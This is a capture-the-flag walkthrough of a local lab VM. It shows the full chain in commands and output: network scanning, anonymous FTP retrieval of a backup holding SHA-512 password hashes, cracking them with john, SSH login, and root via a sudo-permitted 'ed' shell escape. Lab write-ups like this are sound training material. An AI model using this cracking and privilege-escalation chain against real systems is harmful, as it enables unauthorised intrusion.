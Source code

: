 # dpwwn: 1

## 1.Enumeration

```bash
root@kali: arp-scan -I eth0 -l

Interface: eth0, type: EN10MB, MAC: 08:00:27:b2:e9:3f, IPv4: 192.168.56.102
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.56.1	0a:00:27:00:00:0f	(Unknown: locally administered)
192.168.56.119	08:00:27:d3:ce:c3	PCS Systemtechnik GmbH
192.168.56.100	08:00:27:29:ed:8e	PCS Systemtechnik GmbH
```

The ip address is `192.168.56.119`, let's scan it.


```bash
root@kali: nmap -v -p21,22,80,8080 -sV -sC -oN nmap.out 192.168.56.119

Nmap scan report for 192.168.56.119
Host is up (0.00024s latency).

PORT     STATE  SERVICE    VERSION
21/tcp   open   ftp        pyftpdlib 1.5.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root         1062 Jul 29  2019 backup
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.56.119:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp   open   ssh        OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:fa:c5:8c:88:7c:22:14:c4:20:03:32:36:05:d6 (RSA)
|   256 35:92:8e:16:43:0c:39:88:8e:83:0d:e2:2c:a4:65:91 (ECDSA)
|_  256 45:c5:40:14:49:cf:80:3c:41:4f:bb:22:6c:80:1e:fe (ED25519)
80/tcp   closed http
8080/tcp closed http-proxy
MAC Address: 08:00:27:D3:CE:C3 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the only ports are `21` and `22`, so let's check ftp first :

we are able to connect to ftp via user `anonymous` :

```bash
tp 192.168.56.119                                    
Connected to 192.168.56.119.
220 pyftpdlib 1.5.5 ready.
Name (192.168.56.119:root): anonymous
331 Username ok, send password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> dir
229 Entering extended passive mode (|||41299|).
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root         1062 Jul 29  2019 backup

ftp> get backup
local: backup remote: backup
229 Entering extended passive mode (|||36815|).
125 Data connection already open. Transfer starting.
100% |******************************************************************************************|  1062      179.86 KiB/s    00:00 ETA
226 Transfer complete.
```

inside backup file we see this 5 hashes, because it is some how not in a good format

i just copied and paste each line in a new file call `user.txt`, the hash type can be identified with `hashid` :

```bash
root@kali: hashid -mj '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'

Analyzing '$6$$3QW/J4OlV3naFDbhuksxRXLrkR6iKo4gh.Zx1RfZC2OINKMiJ/6Ffyl33OFtBvCI7S4N1b8vlDylF2hG2N0NN/'
[+] SHA-512 Crypt [Hashcat Mode: 1800][JtR Format: sha512crypt]
```

## 2.Gaining Shell

Just use `john` to crack the password :

```bash
root@kali: john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt user.txt 

Using default input encoding: UTF-8
Loaded 5 password hashes with 2 different salts (2.5x same-salt boost) (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
space            (space)     
cheer14          (sunset)     
sky              (sky)  
```


try different users, but you can only login with user `sunset` :

```bash
root@kali: ssh sunset@192.168.56.119
sunset@192.168.56.119's password: 
Linux sunset 4.19.0-5-amd64 #1 SMP Debian 4.19.37-5+deb10u1 (2019-07-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Jul 28 20:52:38 2019 from 192.168.1.182

sunset@sunset:~$ id
uid=1000(sunset) gid=1000(sunset) groups=1000(sunset),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),115(lpadmin),116(scanner)
```

## 3.Privilege Escalation

Check sudo permissions on this user :

```bash
sunset@sunset:~$ sudo -l
Matching Defaults entries for sunset on sunset:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sunset may run the following commands on sunset:
    (root) NOPASSWD: /usr/bin/ed
```

so we can only run `ed` binary with no password :

```bash
unset@sunset:~$ sudo /usr/bin/ed
id
?
!/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)

# cd /root

# cat flag.txt
25d7ce0ee3cbf71efbac61f85d0c14fe
```

This is how you can get root on this machine :)